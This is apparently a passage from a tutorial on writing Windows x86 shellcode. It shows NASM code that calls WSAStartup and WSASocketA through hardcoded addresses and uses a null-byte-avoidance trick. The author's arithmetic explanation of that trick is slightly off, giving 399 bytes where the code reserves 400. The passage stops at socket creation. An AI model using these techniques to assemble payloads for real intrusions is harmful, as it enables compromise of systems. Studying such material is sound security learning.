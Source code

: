 Documentation: <a href="https://docs.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsastartup">https://docs.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsastartup</a>  
Documentation: <a href="https://docs.microsoft.com/en-us/windows/win32/api/winsock/ns-winsock-wsadata">https://docs.microsoft.com/en-us/windows/win32/api/winsock/ns-winsock-wsadata</a>

Syntax:
```nasm
WSAStartup(WORD wVersionRequired, LPWSADATA lpWSAData)
```

The next system call we need to run is WSAStartup() to initialize the use of sockets. It takes two arguments, where the first is the version we are going to use and the second is a pointer to a place to store socket data.

```nasm
add esp, 0xFFFFFE70 ; Creating space for WSAData (400 bytes)
push esp            ; Arg2 (lpWSAData) = pointer to WSAData space
push 0x101          ; Arg1 (wVersionRequired) = 1.1
mov eax, 0x71ab6a55 ; Address to WSAStartup()
call eax
```

The first instruction is `add esp, 0xFFFFFE70`, which is a way of creating space (400 bytes) on the stack without generating null bytes. The normal way of achieving this would be to subtract a value from ESP (remember the stack grows downwards). However, this results in null bytes:
```text
nasm > sub esp, 0x190
00000000  81EC90010000      sub esp,0x190
```

I'm not sure why this trick works, but by inverting the logic it solves our problem:
`0xFFFFFFFF - 0xFFFFFE70 = 0x18F = 399`

## System call: WSASocketA

Documnetation: <a href="https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa">https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa</a>

Syntax:
```nasm
WSASocketA(int af, int type, int protocol, LPWSAPROTOCOL_INFOA lpProtocolInfo, GROUP g, DWORD dwFlags)
```

Now we need to create a socket. This function takes a few parameters, like information about the socket type. 

```nasm
xor eax, eax         ; Clear eax
push eax             ; Arg6 (dwFlags) = 0
push eax             ; Arg5 (g) = 0
push eax             ; Arg4 (lpProtocolInfo) = 0
push eax             ; Arg3 (protocol) = IPPROTO_TCP
push 0x1             ; Arg2 (type) = SOCK_STREAM
push 0x2             ; Arg1 (af) = AF_INET
mov eax, 0x71AB8B6A  ; Address to WSASocketA()
call eax
mov ebx, eax 
```
